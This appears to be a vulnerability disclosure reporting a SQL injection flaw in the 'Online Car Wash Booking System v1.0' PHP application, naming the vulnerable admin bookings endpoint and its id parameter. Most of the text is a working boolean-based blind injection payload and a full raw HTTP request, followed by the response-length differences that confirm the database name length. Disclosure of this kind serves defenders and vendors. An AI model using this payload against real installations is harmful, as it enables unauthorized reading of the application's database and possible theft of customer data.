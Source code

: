 # Online Car Wash Booking System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15274/online-car-wash-booking-system-phpoop-free-source-code.html

Vulnerability File: /ocwbs/admin/bookings/update_status.php?id=

Vulnerability location: /ocwbs/admin/bookings/update_status.php?id=, id

Current database name: ocwbs_db,length is 8

[+] Payload: /ocwbs/admin/bookings/update_status.php?id=3%27%20and%20length(database())%20=8--+ // Leak place ---> id

```sql
GET /ocwbs/admin/bookings/update_status.php?id=3%27%20and%20length(database())%20=8--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qr1o26kvu55cqqitadqht6jna5
Connection: close
```

When length (database ()) = 7, Content-Length: 2012

![image](https://user-images.githubusercontent.com/54017627/169301800-23dceee7-ff00-4679-a4db-a1cfba2e057e.png)

![image](https://user-images.githubusercontent.com/54017627/169301914-b2a5831a-7ce9-49bf-9210-f66195465132.png)

When length (database ()) = 8, Content-Length: 2021

![image](https://user-images.githubusercontent.com/54017627/169301837-53ba793e-c4ab-4f96-be59-3024ba86fb02.png)

![image](https://user-images.githubusercontent.com/54017627/169301874-ba2762bf-1cfd-4b32-abd6-ef8a2093eba1.png)
